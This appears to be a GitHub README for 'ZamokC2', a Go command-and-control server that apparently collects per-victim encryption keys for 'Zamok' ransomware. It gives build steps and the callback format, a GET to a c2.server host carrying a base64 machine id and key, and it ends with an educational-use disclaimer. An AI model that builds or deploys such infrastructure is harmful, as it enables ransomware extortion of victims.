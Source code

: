 # ZamokC2
A simple but effective C2 Server for Zamok

## Setup :
- Clone this repository
- Navigate to the project directory and run :
    ```
    go get
    ```
- To build the C2, run :
    ```
    go build -o zamokc2
    ```
You can now start it by simply running :
    ```
    ./zamokc2
    ```

## How it works :
1. Starts a listener on port 8080 (the default one; you can change it)
2. It expects a GET request from the target/victim 
3. The GET request is like this :
    ```
    GET http://c2.server:8080/<SOME_STRING>
    ```
    Where :
    - SOME_STRING is a base64 string of a unique victim machine id and the encryption/decryption key concatenated with a :
4. The C2 breaks down the request and gets the 2 values : the id and the key
5. It saves these values to an SQLite database locally 
6. It displays a banner on the terminal, with the details of the new victim machine

## Warning :
This project is for educational purposes only, and I will not be responsible for \
anything malicious you do with it 